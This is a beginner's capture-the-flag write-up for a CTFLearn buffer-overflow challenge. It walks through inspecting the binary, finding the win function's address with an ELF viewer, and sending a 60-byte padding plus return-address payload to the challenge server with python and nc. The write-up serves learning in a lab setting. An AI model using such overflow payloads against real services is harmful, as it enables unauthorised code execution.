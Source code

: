1) The first thing I did for this CTF was open the bof2 file in Visual Studio to take a look at what we are trying to accomplish. From here I saw we were going to need to call the win function so I wanted to try and get some more information on what the function was.
![image](https://github.com/AustinGreenLifts/CTFLearn/assets/155912182/534be0aa-7c3b-4368-a355-f79242de4885)

2) Next I dropped the server file into a HEX editor to look for anymore clues or information and I noticed the file started with ELF so I began to research what this meant.
![image](https://github.com/AustinGreenLifts/CTFLearn/assets/155912182/fa9b5d1d-adf8-44b8-b6da-bb0bbe96b327)

3) After learning what a .ELF file is and what they do I was lead to an online ELF file viewer and dropped the file into it.
![image](https://github.com/AustinGreenLifts/CTFLearn/assets/155912182/d10ebfd3-208b-4860-89bc-d3d212a053e9)

4) Following this, I now had the address I needed to redirect to. I created a short python script using some inspiration from other CTFs that would occupy the 60 previous bytes with my initials and then fill my address in for the last 4.
$ echo -e "$(python3 -c 'print("AG" * 30)')\x86\x85\x04\x08" | nc thekidofarcrania.com 4902
![image](https://github.com/AustinGreenLifts/CTFLearn/assets/155912182/4d5aeabb-5178-421c-ba22-ed24b247b794)

